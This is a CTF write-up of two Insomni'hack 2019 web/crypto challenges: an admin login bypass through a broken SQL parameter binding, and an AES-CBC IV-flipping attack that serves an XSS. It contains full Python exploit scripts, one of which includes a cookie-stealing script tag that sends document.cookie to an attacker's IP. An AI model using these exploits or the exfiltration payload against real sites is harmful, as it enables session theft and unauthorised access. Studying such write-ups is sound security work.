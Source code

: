 ```yaml
---
layout: post
title: Insomni'hack 2019
category: writeups
tags: [crypto, web]
---
```


[PHPPrivate](#phpprivate) tldr; invalid prepare SQL function

[SecureFileUpload](#securefileupload) tldr; hmac doesn't include iv -> XSS 

### PHPPrivate

[Source code]({{ "/assets/posts/2019-03-22-insomnihack/phpprivate.tar.gz" }}) (with web.sql and warnings enabled).

Simple web application in php. We can register, login and store files. To get the flag, we must login as the admin.

There are some **potential** bugs:
* in classes/private.class.php, `download` function - path traversal
* in private.php:11 (with `$file['name']`) - XSS
* in private.php:31 - CRLF injection (very potential, `header()` handles newlines)

And two vulnerabilities that we can exploit:
* in private.php:32 (`print $a->download($file['name']);`) and classes/private.class.php, `retrieve` function - no username validation or other authorization mechanism (we can download files of other users once we know hashes of their names)
* in classes/user.class.php:62, `oneTimeLogin` function :
    ```php
    $stmt = mysqli_prepare($db,"SELECT token FROM users_reset WHERE login = ? OR trim(login) = ? ");
    mysqli_stmt_bind_param($stmt,'s',$username);
    $validToken = (string)mysqli_fetch_all(mysqli_stmt_get_result($stmt),MYSQLI_ASSOC)[0]['token'];
    ```
    Incorrect parameters binding. Only one viariable provided in `mysqli_stmt_bind_param` and so `$validToken` becomes empty string.

Using bugs above we can simply login as admin with empty token and get his private files.

Solutions:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

'''
~Gros
'''


import requests


# url = 'http://127.0.0.1/phpprivate/index.php'
# proxies = {'http': 'http://localhost:6666'}
url = 'http://10.13.37.44/index.php'
proxies = {}

# we want to login as him
login_target = 'admin'

# arbitrary, registered previously login/pass
login = 'gros'
password = 'gros'


def get_session():
    s = requests.Session()
    s.post(url, params={'page':'login', 'action':'login'}, data={'login':login, 'password':password}, proxies=proxies)
    return s


def ask(s):
    resp = s.post(url, params={'page':'login', 'action':'ask-otp'}, data={'login':login_target}, proxies=proxies)


def confirm(s):
    resp = s.post(url, params={'page':'login', 'action':'confirm-otp'}, data={'login':login_target, 'token':''}, proxies=proxies)


def get_files(s):
    resp = s.get(url, params={'page':'private'}, proxies=proxies)    
    print(resp.text)


if __name__ == "__main__":
    s = get_session()
    ask(s)
    confirm(s)
    get_files(s)
```

### SecureFileUpload

[Source code]({{ "/assets/posts/2019-03-22-insomnihack/securefileupload.tar.gz" }})

There is an form for file uploading. Once some file is uploaded, we can download it by link like `http://127.0.0.1:3000/files/upload_7e43a9915b2889825213d20d35a51844`. The link redirects us to something like:
```
http://127.0.0.1:3000/download?iv=ShpbGBgnDhwRYwLfqkZilw%3D%3D&headers=ZOdRVO%2FsJfjX6Xpb4XeVn9xYvtkHuLMuWin3TD8ICaIPrJKfieAYmd7fWelAISHcj2MTcZ2NWx80rIBGpBD4sq5Ns0vY6Dc%2BZSc0m%2Bh1RSM%3D&mac=UruIcJZwUKg2o%2FXbkGkcvraPe6TbBjPKEN7eR6N%2FNl4%3D
```

There are three params: iv (inicialization vector), headers (encrypted with aes-cbc) and mac (sha256 based hmac). Encrypted headers content is:
```js
let headers = querystring.stringify({
    d : 'attachment',
    t : 'text/plain',
    id: uid
});
```
where `uid` is id of the file to download.

We can also submit a path, which some bot (with the flag inside cookie) will visit:
```js
let url = 'https://securefileupload.insomni.hack/' + req.query.path;
```

Clearly we have to XSS him and steal the cookie. To do that we may use download function (with encrypted headers). Since we control iv and know first block (16 bytes) of the plaintext, we can change the iv in a way that headers will decrypt to arbitrary (chosen by us) value. The only problem could be the mac. But there is a bug in the implementation - mac is computed only over ciphertext, doesn't include iv.

So we upload file with XSS payload, then set up iv of corresponding ciphertext such that the plaintext will set content-type to text/html and content-disposition to anything invalid (so the file won't be treaded as attachement).

Solution:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

'''
~Gros
'''


from pwn import xor
import requests
from urllib import unquote
from base64 import *


url = 'https://securefileupload.insomni.hack/'
proxies = {}
# url = 'http://localhost:3000'
# proxies = {'https': 'http://localhost:6666'}


def gen_iv(iv_orig):
    iv_plain = 'd=attachment&t=text%2Fplain&id='[:16]
    iv_want = 't=text/html&d=inline&'[:16]
    iv_want = iv_want.rjust(16, '&')
    return xor(iv_plain, iv_want, iv_orig)


def upload(payload):
    url2 = url + "upload"
    burp0_headers = {"Connection": "close", "Cache-Control": "max-age=0", "Origin": "https://securefileupload.insomni.hack", "Upgrade-Insecure-Requests": "1", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundary1Dbi1HkEY5FWVYoH", "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "Referer": "https://securefileupload.insomni.hack/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7"}
    burp0_data = "------WebKitFormBoundary1Dbi1HkEY5FWVYoH\r\nContent-Disposition: form-data; name=\"filetoupload\"; filename=\"r2-d2.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n{}\r\n------WebKitFormBoundary1Dbi1HkEY5FWVYoH--\r\n".format(payload)
    resp = requests.post(url2, headers=burp0_headers, data=burp0_data, verify=False, proxies=proxies)
    result = resp.text[resp.text.index('/files/upload_')+len('/files/upload_'):resp.text.index("'>here!</a>")]
    print('upload: ', result)
    return result


def get_file(file_id):
    resp = requests.get(url+'files/upload_{}'.format(file_id), allow_redirects=False, verify=False,proxies=proxies)
    result = resp.headers['Location']
    result = result.split('?', 1)[-1]
    iv,headers,mac = map(lambda x: unquote(x.split('=',1)[-1]), result.split('&'))
    print(iv, headers, mac)
    iv, headers, mac = map(lambda x: b64decode(x), [iv,headers,mac])
    return iv, headers, mac


def download(iv,headers,mac):
    iv,headers,mac = map(lambda x: b64encode(x), [iv,headers,mac])
    resp = requests.get(url+'download', params={'iv':iv,'headers':headers,'mac':mac}, verify=False, proxies=proxies)
    print(resp.text)


if __name__ == "__main__":
    # or whatever
    payload = """<script>document.location="http://192.168.1.110/xss.php?c="+document.cookie</script>"""

    file_id = upload(payload)
    iv, headers, mac = get_file(file_id)
    iv_want = gen_iv(iv)
    download(iv_want, headers, mac)
```